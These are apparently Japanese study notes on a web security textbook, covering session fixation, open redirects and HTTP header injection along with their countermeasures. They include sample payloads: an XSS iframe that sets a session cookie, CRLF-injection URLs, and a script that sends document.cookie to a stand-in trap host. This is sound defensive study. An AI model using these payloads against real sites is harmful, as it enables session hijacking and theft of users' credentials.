 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.6 セッション管理の不備(続き)
- #### 4.6.3 URL埋め込みのセッションID
	- セッションIDをCookieではなく、URLに埋め込むようにしていると、RefererヘッダからセッションIDが漏洩する可能性がある
	- ただし、セッションIDが漏洩するためには、以下の2つの条件が必要である
		- サイト内に外部サイトへのリンク(=悪意を持ったサイトへのリンク)を作成出来る
		- Referrer-Policyをunsafe-urlなどにしている
			- [参考](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Referrer-Policy)
			- Referrer-Policyを使うことで、Refererの送信を制限することが出来る(Referrer-PolicyのスペルはRefererではなく、Referrer)
			- レスポンス中のHTTPヘッダで制限する方法とHTMLで制限する方法がある
			- unsafe-urlは常にオリジン、パス、クエリパラメータをRefererとして送信する
			- デフォルトはstrict-origin-when-cross-originで、この場合、同一オリジンへのリクエストでしかクエリパラメータを送信しない
- #### 4.6.4 セッションIDの固定化(session fixation)
	- 攻撃者が用意したセッションIDを利用者に使わせる
	- 利用者が個人情報を入力すると、攻撃者がそれを見ることが出来る
	- セッションIDをURLに埋め込んでいるサイトの場合、攻撃が簡単
		- 利用者がURLを注意深く見ていたら失敗するが
		- 攻撃者がセッションID付きのURLを利用者に送信して、新規登録させる
			- セッションIDは攻撃者が用意する
		- 利用者が新規登録して、セッションIDに個人情報が紐づく
			- 新規登録が完了する前でも、入力画面と確認画面があった時、確認画面から入力画面に戻った時に入力値を復元するためにセッション変数を使っていると、session fixationが可能
		- セッションアダプションが有効なサイトの場合、攻撃者は適当なセッションIDを作れば良い(ABCとか何でも良い)
			- セッションアダプションとは、未知のセッションIDを受け入れるというもので、利用者が勝手に作ったセッションIDに情報を紐づける
				- PHPやASP.NETなどでセッションアダプションが有効になっている
			- セッションアダプションが有効でない場合、サーバが生成したセッションIDにしか情報を紐付けない
		- セッションアダプションが有効でないサイトの場合、攻撃者がサイトを閲覧して、有効なセッションIDを発行して、これを利用者に使わせる
			- といっても、[この記事](https://www.ubsecure.jp/blog/session_fixation)の図のように、サイトにアクセスしたタイミングでセッションIDが発行されるようになっていないと攻撃は成立しない
			- 新規登録してからセッションIDが発行される仕組みなら、既にそのセッションIDに攻撃者の情報が紐づいてしまうので、そのセッションIDを使った利用者はおかしいと思うはずなので
	- セッションIDをCookieで管理しているサイトの場合はXSSやHTTPヘッダインジェクションを利用する
		- XSSの場合は以下のようなiframeを埋め込む
			- ```html
			  <iframe width=320 height=100 src="http://example.jp?keyword=<script>
			  document.cookie='PHPSESSID=ABC'
			  </script>"></iframe>
			  ```
			- iframeは隠しておいて、サイト(http://example.jp)へのログインを促す
	- 対策
		- リクエスト中に含まれるセッションIDに情報を紐づけるのではなく、サーバ側で新たにセッションIDを生成し、これに情報を紐付け、このセッションIDをCookieにセットする(前のセッションIDは削除する)
		- ↑が出来ない時(そんな時ある？)はトークンを利用する
			- 新規登録したタイミングで、セッションIDに情報を紐付けるだけでなく、サーバでトークンを生成し、このトークンをセッション変数とCookieにセットする
			- 認証後のページはトークンを検証する
			- 攻撃者はトークンを知らないため、利用者の個人情報を見ることが出来ない
- ### 4.7 リダイレクト処理にまつわる脆弱性
- #### 4.7.1 オープンリダイレクト
	- リダイレクトはLocationヘッダを使う方法と、JavaScriptを使う方法(location.href="...")がある
	- リダイレクト先を外部から指定できるようになっている(クエリパラメータなどで)と、個人情報を盗まれる可能性がある
		- リダイレクト先がオープンであるという意味で、オープンリダイレクト
	- 攻撃例
		- ログイン画面 → ログイン完了画面というページ遷移を考える
		- 普通なら、ログイン画面のformタグのactionでログイン完了画面を指定することでページ遷移を行うが、actionで指定した処理がLocationヘッダを返すことで、ログイン完了画面へのページ遷移を行う場合を考える
		- ログイン画面はクエリパラメータで遷移先のURLを受け取る
		- このURLをformタグで送信し、actionで指定した処理がLocationヘッダの値にセットする
		- 攻撃者はクエリパラメータのURLに罠サイトを指定して、これを利用者が閲覧するように仕向ける(`http://example.jp/login?url=http://trap.example.com`など）
		- 利用者がログイン画面でログインボタンを押すと、罠サイトに遷移する
		- 罠サイトは正規サイトのログイン失敗画面に似せて作る
		- 利用者はパスワードを間違えたと思って、再度IDとパスワードを入力してログインボタンを押す
		- この時に攻撃者のサーバにIDとパスワードが送られるようにする
		- さらに、正規サイトのログイン画面に遷移するようにしておけば、利用者は今度はログインが成功したと思い、気づかれにくくなる
	- 対策
		- リダイレクト先のURLを固定し、外部から指定出来ないようにする
		- やむを得ず、リダイレクト先を可変にしたい場合は、リダイレクト先のURLを直接指定せず番号指定にする
			- ページ番号のURLの対応表は外部から見えないファイルやデータベースで管理する
		- 番号指定にしたくない時は、リダイレクト先のドメイン名を検証する
			- 検証漏れが多いので注意
			- 例えば、URLが`http://example.jp/`から始まっていたらOKとすると、HTTPヘッダインジェクションで回避される
	- 外部ドメインにリダイレクトする場合は、クッションページを用意すると、被害を抑えられる
		- クッションページがないと、正規サイトに似せて作った罠サイトが作られていると、リダイレクトしても、まだ正規サイト内にいると思ってしまうため
- #### 4.7.2 HTTPヘッダ・インジェクション
	- 外部からのパラメータを元にHTTPヘッダとして出力していると、HTTPヘッダ・インジェクションが発生する
	- 外部ドメインへのリダイレクト、任意のCookie生成、偽画面の表示といった攻撃が可能
	- 外部ドメインへのリダイレクト
		- オープンリダイレクトで説明した、遷移先のURLをクエリパラメータで受け取るログイン画面(`http://example.jp/login?url=...`)を考える
		- URLの検証を行なっていて、`http://example.jp/`で始まっていない場合はエラーとする
		- しかし、`http://example.jp/login?url=http://example.jp/%0D%0ALocation:+http://trap.example.com`にアクセスすると、検証をクリアし、http://trap.example.comにリダイレクトしてしまう
		- `%0D%0A`はCRLFを意味していて、これによってプログラムは2行のLocationヘッダを出力する
			- ```
			  Location: http://example.jp/
			  Location: http://trap.example.com
			  ```
		- Apacheはプログラムから複数のLocationヘッダを受け取った時、最後のLocationヘッダのみをレスポンスとして返す
	- 任意のCookie生成
		- `http://example.jp/login?url=http://example.jp/%0D%0ASet-Cookie:+PHPSESSID=ABC`にアクセスすると、Cookieがセットされる
		- session fixationに利用する
	- 偽画面の表示
		- `%0D%0A`を2回連続させることで、その後の文字列がレスポンスボディと見做される
		- 正規サイトのコンテンツも一緒に表示されてしまうが、CSSで隠すことが出来る
		- 偽のフォームを作成して個人情報を盗むことが出来る
			- ドメインは正規のものであるため信用してしまう可能性がある
		- JavaScriptを実行してCookieを盗んだり出来る
			- `?url=http://example.jp/%0D%0A%0D%0A<script>fetch('http://trap.example.com?sid='%2Bdocument.cookie)</script>`など
	- 対策
		- 外部からのペラメータをレスポンスヘッダとして出力しない
		- LocationヘッダやSet-Cookieヘッダの出力を専用APIに任せる
			- Ginの場合、ctx.Redirectやctx.SetCookieなど
			- 中身の処理がどうなっているのか後で調べる
	- HTTPヘッダ・インジェクションに関連して、HTTPレスポンス分割攻撃というのがある([参考](http://www.techmatrix.co.jp/product/jtest/security/httpresponsesplitting.html))
		- HTTP/1.1では複数のリクエストをまとめて送信することが出来て、この場合レスポンスもまとめて返される
		- 1つ目のリクエストでHTTPヘッダ・インジェクションをして、偽のコンテンツを2つ目のリクエストに対するレスポンスとして誤認させ、キャッシュサーバに偽コンテンツをキャッシュさせる(キャッシュ汚染)